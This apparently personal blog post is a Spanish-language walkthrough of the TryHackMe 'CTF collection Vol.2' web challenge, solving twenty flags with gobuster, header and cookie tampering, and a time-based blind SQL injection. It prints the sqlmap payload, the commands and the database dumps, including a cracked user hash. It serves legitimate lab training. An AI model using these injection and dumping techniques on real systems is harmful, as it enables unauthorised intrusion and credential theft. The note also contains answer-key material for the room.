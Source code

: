 ```yaml
---
layout: single
title: CTF collection Vol.2
excerpt: "Sharpening up your CTF skill with the collection. The second volume is about web-based CTF"
date: 2022-07-02
classes: wide
header:
  teaser: /assets/images/thm-writeup-ctf-vol2/ctf2_logo.png
  teaser_home_page: true
  icon: /assets/images/thm_ico.png
categories:
  - TryHackMe
  - infosec
tags:
  - Security
  - Linux
  - nmap
  - Burp Suite
  - Web
  - Reverse Shell
  - Privilege escalation
---
```


![logo](/assets/images/thm-writeup-ctf-vol2/ctf2_logo.png)

- Link: <https://tryhackme.com/room/ctfcollectionvol2>

Welcome, welcome and welcome to another CTF collection. This is the second installment of the CTF collection series. For your information, the second serious focuses on the web-based challenge. There are a total of 20 easter eggs a.k.a flags can be found within the box. Let see how good is your CTF skill.

Now, deploy the machine and collect the eggs!

Warning: The challenge contains seizure images and background. If you feeling uncomfortable, try removing the background on <style> tag.

Note: All the challenges flag are formatted as THM{flag}, unless stated otherwise

---

## Easter 1-> hint: (Check the robots)

Revisando el directorio **"robots.txt"** y en esta ruta encontramos el siguiente contenido:

![flag1](/assets/images/thm-writeup-ctf-vol2/ctf2_flag1.png)

Se observa que la fila final esta en sestema hexadecimal, cadena que decodificamos en <https://gchq.github.io/CyberChef/> obteniendo el **Easter 1**

![flag1](/assets/images/thm-writeup-ctf-vol2/ctf2_flag1-.png)

---

## Easter 2 -> <https://www.netsparker.com/blog/web-security/local-file-inclusion-vulnerability/>

Decodificamos la primera línea en cyberchef <https://gchq.github.io/CyberChef/> obteniendo el **Easter 2**, de acuerdo con la siguiente secuencia:

~~~cs
From Base64
URL Decode
From Base64
Remove whitespace
From Base64
Remove whitespace
From Base64
~~~

![flag2](/assets/images/thm-writeup-ctf-vol2/ctf2_flag2.png)

Revisando el código de la página, se encuentra la bandera correspondiente:

![flag2](/assets/images/thm-writeup-ctf-vol2/ctf2_flag3.png)

---

## Easter 3 -> **Directory buster with common.txt might help.**

Con base en la ayuda realizamos una búsqueda con **gobuster**:

~~~cs
gobuster dir -u http://10.10.174.164/ -w /usr/share/dirb/wordlists/common.txt
~~~

![flag3](/assets/images/thm-writeup-ctf-vol2/ctf2_flag4.png)

Revisamos el código de la página **/login** y encontramos la bandera 3:

![flag3](/assets/images/thm-writeup-ctf-vol2/ctf2_flag4_1.png)

---

## Easter 4 -> **time-based sqli**

- Desde burpsuite, procedemos a capturar la petición **post** con datos aleatorios en los campos "Username" y "Password", guardamos esta petición con el nomnbre "post.txt"

![flag4](/assets/images/thm-writeup-ctf-vol2/ctf2_flag4_A.png)



- Utilizamos **sqlmap** para encontrar el nombre de la base de datos ejecutamos el siguiente comando; **sqlmap -r post.txt --dbs**, como se observa a continuación:


~~~sql
┌──(root㉿kali)-[/home/ocortesl/Escritorio]
└─# sqlmap -r post.txt --dbs 
        ___
       __H__                                                                                                                                                                                                                               
 ___ ___[']_____ ___ ___  {1.6.6#stable}                                                                                                                                                                                                   
|_ -| . [(]     | .'| . |                                                                                                                                                                                                                  
|___|_  [,]_|_|_|__,|  _|                                                                                                                                                                                                                  
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                               

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:34:15 /2022-07-10/

[11:34:15] [INFO] parsing HTTP request from 'post.txt'
[11:34:15] [INFO] resuming back-end DBMS 'mysql' 
[11:34:15] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=a' AND (SELECT 1604 FROM (SELECT(SLEEP(5)))wwnM) AND 'pMmd'='pMmd&password=a&submit=submit
---
[11:34:15] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 12.04 or 12.10 or 13.04 (Precise Pangolin or Raring Ringtail or Quantal Quetzal)
web application technology: Apache 2.2.22, PHP 5.3.10
back-end DBMS: MySQL >= 5.0.12
[11:34:15] [INFO] fetching database names
[11:34:15] [INFO] fetching number of databases
[11:34:15] [INFO] resumed: 4
[11:34:15] [INFO] resuming partial value: in
[11:34:15] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                                                            
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
[11:34:56] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[11:34:56] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
[11:35:07] [INFO] adjusting time delay to 2 seconds due to good response times
formation_schema
[11:37:08] [INFO] retrieved: THM_f0und_m3
[11:39:18] [INFO] retrieved: mysql
[11:39:59] [INFO] retrieved: performance_schema
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] THM_f0und_m3

[11:42:17] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.4.61'

[*] ending @ 11:42:17 /2022-07-10/
~~~

- En este punto, "Dumpeamos" las tablas base de datos con el siguiente comando: **sqlmap -r post.txt -D THM_f0und_m3 --tables** como se observa a continuación:

~~~sql
┌──(root㉿kali)-[/home/ocortesl/Escritorio]
└─# sqlmap -r post.txt -D THM_f0und_m3 --tables
        ___
       __H__                                                                                                                                                                                                                                
 ___ ___[,]_____ ___ ___  {1.6.6#stable}                                                                                                                                                                                                    
|_ -| . ["]     | .'| . |                                                                                                                                                                                                                   
|___|_  [,]_|_|_|__,|  _|                                                                                                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:02:15 /2022-07-10/

[12:02:15] [INFO] parsing HTTP request from 'post.txt'
[12:02:15] [INFO] resuming back-end DBMS 'mysql' 
[12:02:15] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=a' AND (SELECT 1604 FROM (SELECT(SLEEP(5)))wwnM) AND 'pMmd'='pMmd&password=a&submit=submit
---
[12:02:16] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 13.04 or 12.04 or 12.10 (Quantal Quetzal or Raring Ringtail or Precise Pangolin)
web application technology: Apache 2.2.22, PHP 5.3.10
back-end DBMS: MySQL >= 5.0.12
[12:02:16] [INFO] fetching tables for database: 'THM_f0und_m3'
[12:02:16] [INFO] fetching number of tables for database 'THM_f0und_m3'
[12:02:16] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                                                             
[12:02:23] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
2
[12:02:37] [INFO] retrieved: 
[12:02:42] [INFO] adjusting time delay to 2 seconds due to good response times
nothing_inside
[12:04:41] [INFO] retrieved: user
Database: THM_f0und_m3
[2 tables]
+----------------+
| user           |
| nothing_inside |
+----------------+

[12:05:12] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.4.61'

[*] ending @ 12:05:12 /2022-07-10/
~~~

- Revisamos la estructura de la tabla "nothing_inside" con el comando: **sqlmap -r post.txt -D THM_f0und_m3 -T nothing_inside --columns**, con el siguiente resultado:

┌──(root㉿kali)-[/home/ocortesl/Escritorio]
└─# sqlmap -r post.txt -D THM_f0und_m3 -T nothing_inside --columns
        ___
       __H__                                                                                                                                                                                                                                
 ___ ___[,]_____ ___ ___  {1.6.6#stable}                                                                                                                                                                                                    
|_ -| . [.]     | .'| . |                                                                                                                                                                                                                   
|___|_  ["]_|_|_|__,|  _|                                                                                                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:30:47 /2022-07-10/

[13:30:47] [INFO] parsing HTTP request from 'post.txt'
[13:30:47] [INFO] resuming back-end DBMS 'mysql' 
[13:30:47] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=a' AND (SELECT 1604 FROM (SELECT(SLEEP(5)))wwnM) AND 'pMmd'='pMmd&password=a&submit=submit
---
[13:30:48] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 13.04 or 12.10 or 12.04 (Quantal Quetzal or Raring Ringtail or Precise Pangolin)
web application technology: PHP 5.3.10, Apache 2.2.22
back-end DBMS: MySQL >= 5.0.12
[13:30:48] [INFO] fetching columns for table 'nothing_inside' in database 'THM_f0und_m3'
[13:30:48] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                                                             
[13:30:55] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
1
[13:31:12] [INFO] retrieved: 
[13:31:23] [INFO] adjusting time delay to 2 seconds due to good response times
Easter_4
[13:32:24] [INFO] retrieved: varchar(30)
Database: THM_f0und_m3
Table: nothing_inside
[1 column]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| Easter_4 | varchar(30) |
+----------+-------------+

[13:33:49] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.4.61'

[*] ending @ 13:33:49 /2022-07-10/

- De acuerdo con el paso anterior, se encontró un solo campo **Easter_4**, el cual procedemos a "dumpear" con el siguiente comando; **sqlmap -r post.txt -D THM_f0und_m3 -T nothing_inside -C Easter_4 --sql-query "select Easter_4 from nothing_inside"**

┌──(root㉿kali)-[/home/ocortesl/Escritorio]
└─# sqlmap -r post.txt -D THM_f0und_m3 -T nothing_inside -C Easter_4 --sql-query "select Easter_4 from nothing_inside"
        ___
       __H__                                                                                                                                                                                                                                
 ___ ___[)]_____ ___ ___  {1.6.6#stable}                                                                                                                                                                                                    
|_ -| . [,]     | .'| . |                                                                                                                                                                                                                   
|___|_  [']_|_|_|__,|  _|                                                                                                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:37:59 /2022-07-10/

[13:37:59] [INFO] parsing HTTP request from 'post.txt'
[13:37:59] [INFO] resuming back-end DBMS 'mysql' 
[13:37:59] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=a' AND (SELECT 1604 FROM (SELECT(SLEEP(5)))wwnM) AND 'pMmd'='pMmd&password=a&submit=submit
---
[13:37:59] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 12.04 or 13.04 or 12.10 (Raring Ringtail or Precise Pangolin or Quantal Quetzal)
web application technology: PHP 5.3.10, Apache 2.2.22
back-end DBMS: MySQL >= 5.0.12
[13:37:59] [INFO] fetching SQL SELECT statement query output: 'select Easter_4 from nothing_inside'
[13:37:59] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                                                             
[13:38:06] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
1
[13:38:17] [INFO] retrieved: 
[13:38:27] [INFO] adjusting time delay to 2 seconds due to good response times
THM{1nj3c7_l1k3_4_b055}
select Easter_4 from nothing_inside: 'THM{1nj3c7_l1k3_4_b055}'
[13:41:57] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.4.61'


---
## Easter 5 -> **Another sqli**

- Trabajando con la misma base de datos del punto anterior y sabiendo que existe una tabla "user" procedemos a dumpearla con el siguiente comando; **sqlmap -r post.txt -D THM_f0und_m3 -T user --columns**

┌──(root㉿kali)-[/home/ocortesl/Escritorio]
└─# sqlmap -r post.txt -D THM_f0und_m3 -T user --columns
        ___
       __H__                                                                                                                                                                                                                                
 ___ ___[)]_____ ___ ___  {1.6.6#stable}                                                                                                                                                                                                    
|_ -| . [,]     | .'| . |                                                                                                                                                                                                                   
|___|_  [,]_|_|_|__,|  _|                                                                                                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:44:19 /2022-07-10/

[13:44:19] [INFO] parsing HTTP request from 'post.txt'
[13:44:19] [INFO] resuming back-end DBMS 'mysql' 
[13:44:19] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=a' AND (SELECT 1604 FROM (SELECT(SLEEP(5)))wwnM) AND 'pMmd'='pMmd&password=a&submit=submit
---
[13:44:20] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 12.04 or 13.04 or 12.10 (Raring Ringtail or Quantal Quetzal or Precise Pangolin)
web application technology: PHP 5.3.10, Apache 2.2.22
back-end DBMS: MySQL >= 5.0.12
[13:44:20] [INFO] fetching columns for table 'user' in database 'THM_f0und_m3'
[13:44:20] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                                                             
[13:44:27] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
[13:45:13] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
2
[13:45:19] [INFO] retrieved: 
[13:45:24] [INFO] adjusting time delay to 2 seconds due to good response times
username
[13:46:19] [INFO] retrieved: varchar(30)
[13:47:45] [INFO] retrieved: password
[13:48:52] [INFO] retrieved: varchar(40)
Database: THM_f0und_m3
Table: user
[2 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| password | varchar(40) |
| username | varchar(30) |
+----------+-------------+

[13:50:18] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.4.61'

[*] ending @ 13:50:18 /2022-07-10/

- Llegados a este punto procedemos a dumpear el contenido, con el siguiente comando; **sqlmap -r post.txt -D THM_f0und_m3 -T user -C username,password --sql-query "select username,password from user"**

┌──(root㉿kali)-[/home/ocortesl/Escritorio]
└─# sqlmap -r post.txt -D THM_f0und_m3 -T user -C username,password --sql-query "select username,password from user"
        ___
       __H__                                                                                                                                                                                                                                
 ___ ___[,]_____ ___ ___  {1.6.6#stable}                                                                                                                                                                                                    
|_ -| . [(]     | .'| . |                                                                                                                                                                                                                   
|___|_  [)]_|_|_|__,|  _|                                                                                                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:56:57 /2022-07-10/

[13:56:57] [INFO] parsing HTTP request from 'post.txt'
[13:56:57] [INFO] resuming back-end DBMS 'mysql' 
[13:56:57] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=a' AND (SELECT 1604 FROM (SELECT(SLEEP(5)))wwnM) AND 'pMmd'='pMmd&password=a&submit=submit
---
[13:56:57] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 13.04 or 12.04 or 12.10 (Precise Pangolin or Quantal Quetzal or Raring Ringtail)
web application technology: Apache 2.2.22, PHP 5.3.10
back-end DBMS: MySQL >= 5.0.12
[13:56:57] [INFO] fetching SQL SELECT statement query output: 'select username,password from user'
[13:56:57] [INFO] the SQL query provided has more than one field. sqlmap will now unpack it into distinct queries to be able to retrieve the output even if we are going blind
[13:56:57] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                                                             
[13:57:05] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
[14:00:20] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
2
the SQL query provided can return 2 entries. How many entries do you want to retrieve?
[a] All (default)
[#] Specific number
[q] Quit
> a
[14:00:37] [INFO] retrieved: 
[14:00:42] [INFO] adjusting time delay to 2 seconds due to good response times
DesKel
[14:01:31] [INFO] retrieved: 05f3672ba34409136aa71b8d00070d1b
[14:05:41] [INFO] retrieved: Skidy
[14:06:20] [INFO] retrieved: He is a nice guy, say hello for me
select username,password from user [2]:
[*] DesKel, 05f3672ba34409136aa71b8d00070d1b
[*] Skidy, He is a nice guy, say hello for me

[14:11:19] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.4.61'

[*] ending @ 14:11:19 /2022-07-10/


- Crakeamos el hash;**DesKel, 05f3672ba34409136aa71b8d00070d1b** encontrado en -> <https://crackstation.net/> y obtenemos el siguiente resultado:

![flag4](/assets/images/thm-writeup-ctf-vol2/ctf2_flag5.png)

- Con el usuario y contraseña encontrados en los puntos anteriores, procedemos a autenticarnos en la página "/login" y obtenemos la bandera correspondiente a este punto.

---

## Easter 6 -> **Look out for the response header.**

- Ejecutamos el siguiente comando; **curl -s 10.10.4.61 -D header.txt**

~~~sql
┌──(root㉿kali)-[/home/ocortesl/Documentos/THM/CTF2]
└─# curl -s 10.10.4.61 -D header.txt
<!DOCTYPE html>
<html>
                <head>
                <title>360 No Scope!</title>
                <h1>Let's get party! Erm....mmmmmmmmmmm</h1>
                <script src="jquery-9.1.2.js"></script>
                 <style>
                        body {
                                background-image: url('static.gif');
                                }
                </style> 
                <img src="rainbow-frog.gif"/><img src="rainbow-frog.gif"/><img src="rainbow-frog.gif"/>
        </head>

        <body>
                <h2>DID you know: Banging your head against a wall for one hour burns 150 calories.</h2>
                                        <p><img src="who.gif"/></p>
                        <h2> Who are you? Did I invite you?</h2>
                        <hr><hr><hr><hr><hr><hr><hr>
        <p>Psst....psst.. hey dude.......do you have extra cash</p>
        <p>Please buy me one iphone 11....I'm poor, link down below.</p>
                        <h4>You need Safari 13 on iOS 13.1.2 to view this message. If you are rich enough</h4>
                <a href="https://www.apple.com/iphone-11/"><img src="iphone.jpg"/></a>
        <br><br>
        <img src="nicole.gif"/><img src="nicole.gif"/><img src="nicole.gif"/><img src="nicole.gif"/>
        <br>
        <h3>Spin me right now, spin me right now</h3>
        <h1>Ohhhhhh... Did you subsribe to Tryhackme? Is a great platform<h1>
        <h3>Thanks to them, I able to make this so call 'weird' room!!!!!!!<h3>
        <a href="/free_sub"><h2>Btw, I got a free gift for you, Perhaps a subscription voucher. Claim now!</h2></a>
        <hr><hr><hr><hr>
        <h3>Is dinner time boiiiiiiiii</h3>
        <img src="dinner.gif"/>
        <h2>Let see the menu, huh..............</h2>
        <form method="POST">
        <select name="dinner">
                 <option value="salad">salad</option>
                 <option value="chicken sandwich">chicken sandwich</option>
                 <option value="tyre">tyre</option>
                 <option value="DesKel">DesKel</option>
        </select>
         <br><br><br>
                 <button name="submit" value="submit">Take it!</button>
        </form>

                <h1 style="color:red"">Press this button if you wishes to watch the world burn!!!!!!!!!!!!!!!!<h1>...

~~~

- Listamos el archivo **header.txt** y encontramos la bandera 6:

~~~sql
┌──(root㉿kali)-[/home/ocortesl/Documentos/THM/CTF2]
└─# cat header.txt                  
HTTP/1.1 200 OK
Date: Sun, 10 Jul 2022 19:03:13 GMT
Server: Apache/2.2.22 (Ubuntu)
X-Powered-By: PHP/5.3.10-1ubuntu3.26
Busted: Hey, you found me, take this Easter 6: THM{l37'5_p4r7y_h4rd}
Set-Cookie: Invited=0
Vary: Accept-Encoding
Transfer-Encoding: chunked
Content-Type: text/html
~~~

---

## Easter 7 -> **Cookie is delicious**

- Mediante Burp analizamos el "header" y encontramos una "kookie" con valor = 0:

![flag7](/assets/images/thm-writeup-ctf-vol2/ctf2_flag7.png)


- Enviamos esta petición al "repeater" y cambiamos el valor de la "kookie" = 1, enviamos la petición y encontramos "Easter 7":

![flag7](/assets/images/thm-writeup-ctf-vol2/ctf2_flag7_1.png)

---

## Easter 8 -> **Mozilla/5.0 (iPhone; CPU iPhone OS 13_1_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.0.1 Mobile/15E148 Safari/604.1**

- De acuerdo con la pista, cambiamos el "User-Agent":

![flag8](/assets/images/thm-writeup-ctf-vol2/ctf2_flag8.png)


- Obteniendo la bandera correspondiente:

![flag8](/assets/images/thm-writeup-ctf-vol2/ctf2_flag8_1.png)


## Easter 9 -> **Something is redirected too fast. You need to capture it.**

- Con el siguiente comando encontramos el "Easter 9":


~~~bash
# curl http://10.10.4.61/ready/
<html>
        <head>
                <title>You just press it</title>
                <meta http-equiv="refresh" content="3;url=http:gone.php" />
                <p style="text-align:center"><img src="bye.gif"/></p>
                <!-- Too fast, too good, you can't catch me. I'm sanic Easter 9: THM{????????????} -->
        </head>

</html>

~~~

---

## Easter 10 -> **Look at THM URL without https:// and use it as a referrer.**

- Buscando "Tryhackme" en el código del "home", encontramos la siguiente ruta; **/fre_sub**:

![flag10](/assets/images/thm-writeup-ctf-vol2/ctf2_flag9.png)

- Realizamos curl sobre esta ruta y encontramos el siguiente mensaje:

~~~bash
└─# curl http://10.10.4.61/free_sub/                 
only people came from tryhackme are allowed to claim the voucher.
~~~

- De acuerdo con la pista modificamos el "referer" utilizando "tryhackme.com" y encotramos el "Easter 10"

![flag10](/assets/images/thm-writeup-ctf-vol2/ctf2_flag10.png)

ctf2_flag10.png

---

## Easter 11 -> ** Temper the html.**

- Revisamos en el "home" y encontramos este apartado "Is dinner time boiiiiiiiii" en el cual podemos escoger la cena, la respuesta al seleccionar "salad" es: **Mmmmmm... what a healthy choice, I prefer an egg**:


![flag11](/assets/images/thm-writeup-ctf-vol2/ctf2_flag11.png)

- Enviamos la solicitud al "repeater" y modificamos el menu por "egg" y encontramos el "Easter 11"

![flag11](/assets/images/thm-writeup-ctf-vol2/ctf2_flag11_1.png)

---

## Easter 12 -> **Fake js file**

- Buscando archivos ".js" en el código del home:

![flag12](/assets/images/thm-writeup-ctf-vol2/ctf2_flag12.png)

- Como se observa en el código, existe el script: **jquery-9.1.2.js**, al cual nos dirigimos:

![flag12](/assets/images/thm-writeup-ctf-vol2/ctf2_flag12_1.png)

- Decodificamos el código "From Hex" en <<"https://gchq.github.io/CyberChef/>> y encontramos el "Easter 12":

![flag12](/assets/images/thm-writeup-ctf-vol2/ctf2_flag12_2.png)

---

## Easter 13 -> **Fake js file**

- Al resolver "Easter 9" se consigue el "Easter 13":

![flag13](/assets/images/thm-writeup-ctf-vol2/ctf2_flag13.png)

---

## Easter 14 -> **Embed image code**

- Buscando en el código "Easter 14" y encontramos un código, como se observa a continuación:

![flag14](/assets/images/thm-writeup-ctf-vol2/ctf2_flag14_A.png)

- Desde cyberchef procedemos a descifrar desde base 64 y a renderizar la imagen y obtenemos el Easter 14:


![flag14](/assets/images/thm-writeup-ctf-vol2/ctf2_flag14.png)

---

## Easter 15 -> **Try guest the alphabet and the hash code**

- De acuerdo con la pista y desde burpsuite intentamos con todo el abcedario en minúscula y mayúscula como observamos a continuación:

![flag15](/assets/images/thm-writeup-ctf-vol2/ctf2_flag15_1.png)


![flag15](/assets/images/thm-writeup-ctf-vol2/ctf2_flag15.png)

a  b  c  d  e  f  g  h  i  j  k  l  m  n  o  p  q  r  s  t  u  v  w  x  y  z
---
89 90 91 92 93 94 95 41 42 43 75 76 77 78 79 80 81 10 11 12 13 14 15 16 17 18

A  B   C   D   E   F   G  H  I  J  K  L  M  N  O   P   Q   R   S   T   U   V   W   X   Y   Z
---
99 100 101 102 103 104 51 52 53 54 55 56 57 58 126 127 128 129 130 131 136 137 138 139 140 141

- Con esta información procedemos a descifrar: hints: 51 89 77 93 126 14 93 10 obteniendo:

51 89 77 93 126 14 93 10
---
G  a  m  e  O   v  e  r

![flag15](/assets/images/thm-writeup-ctf-vol2/ctf2_flag15_2.png)

---

## Easter 16 -> **Make all inputs into one form.**

- Desde "game2" capturamos la petición de presionar "Button 1" y obtenemos la siguiente respuesta:

![flag16](/assets/images/thm-writeup-ctf-vol2/ctf2_flag16.png)


- Con base en lo anterior unimos las tres peticiones con la siguiente petición "button1=button1&button2=button2&button3=button3&submit=submit", como se observa a continuación obteniendo el "Easter 16":

![flag16](/assets/images/thm-writeup-ctf-vol2/ctf2_flag16_1.png)

---

## Easter 17 -> **bin -> dec -> hex -> ascii**

- Con el siguiente código en **python** obtenemos el "Easter 17":

![flag17](/assets/images/thm-writeup-ctf-vol2/ctf2_flag17.png)


~~~python
#bin -> dec -> hex -> ascii
binary = "100010101100001011100110111010001100101011100100010000000110001001101110011101000100000010101000100100001001101011110110110101000110101010111110110101000110101010111110110101100110011011100000101111101100100001100110110001100110000011001000011001101111101"
decimal = int(binary, 2)
print (decimal)
hexa = hex(decimal) [2:]
print (hexa)
print (bytes.fromhex(hexa).decode("ASCII"))
~~~

---

## Easter 18 -> **Request header. Format is egg:Yes**

- Modificamos la solicitud como se observa a continuación:

![flag18](/assets/images/thm-writeup-ctf-vol2/ctf2_flag18.png)

---

## Easter 19 -> **A thick dark line**

- Buscando en el código imagenes, encontramos "small.png" e ingresamos a esta, obteniendo el "easter 19"

![flag19](/assets/images/thm-writeup-ctf-vol2/ctf2_flag19.png)
![flag19](/assets/images/thm-writeup-ctf-vol2/ctf2_flag19_1.png)

---

## Easter 20 -> **You need to POST the data instead of GET. Burp suite or curl might help.**

- Revisando en el código "Easter 20" encontramos un usuario y contraseña, que cambiando el método de solicitud en "burp" de get a post y agregando la siguiente línea "username=DesKel&password=heIsDumb).", obtenemos el "Easter 20":

![flag20](/assets/images/thm-writeup-ctf-vol2/ctf2_flag20.png)

---

## Fuentes

- Cyberchef:
<https://gchq.github.io/CyberChef/>

- Writeup:
<https://www.aldeid.com/wiki/TryHackMe-CTF-collection-Vol2>

- Crackstation:
<https://crackstation.net/>